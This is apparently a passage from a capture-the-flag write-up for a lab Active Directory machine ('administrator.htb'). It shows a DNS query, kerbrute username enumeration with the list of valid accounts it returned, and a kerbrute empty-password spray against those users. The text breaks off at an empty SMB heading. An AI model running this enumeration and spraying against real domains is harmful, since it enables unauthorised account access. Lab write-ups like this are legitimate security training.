 ```bash
dig +short ANY @10.10.11.42 administrator.htb
10.10.11.42
dc.administrator.htb.
dc.administrator.htb. hostmaster.administrator.htb. 124 900 600 86400 3600
```

## Kerberos user enumeration

```bash
kerbrute userenum \
  -d administrator.htb \
  --dc 10.10.11.42 \
  -o valid_ad_users \
  /usr/share/seclists-git/Usernames/xato-net-10-million-usernames-dup.txt
```
```
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/02/25 - Ronnie Flathers @ropnop

2025/03/02 14:59:56 >  Using KDC(s):
2025/03/02 14:59:56 >   10.10.11.42:88

2025/03/02 14:59:56 >  [+] VALID USERNAME:       michael@administrator.htb
2025/03/02 14:59:57 >  [+] VALID USERNAME:       Michael@administrator.htb
2025/03/02 14:59:57 >  [+] VALID USERNAME:       benjamin@administrator.htb
2025/03/02 15:00:06 >  [+] VALID USERNAME:       administrator@administrator.htb
2025/03/02 15:00:06 >  [+] VALID USERNAME:       emily@administrator.htb
2025/03/02 15:00:06 >  [+] VALID USERNAME:       MICHAEL@administrator.htb
2025/03/02 15:00:10 >  [+] VALID USERNAME:       olivia@administrator.htb
2025/03/02 15:00:13 >  [+] VALID USERNAME:       Benjamin@administrator.htb
2025/03/02 15:00:17 >  [+] VALID USERNAME:       ethan@administrator.htb
2025/03/02 15:01:15 >  [+] VALID USERNAME:       Administrator@administrator.htb
2025/03/02 15:02:04 >  [+] VALID USERNAME:       BENJAMIN@administrator.htb
```

## Password Spraying

Spraying an empty password to all of the users we got
```bash
kerbrute passwordspray \
  -d administrator.htb \
  --dc 10.10.11.42 \
  ./users \
  ''
```

## Unauthenticated SMB connection attempts
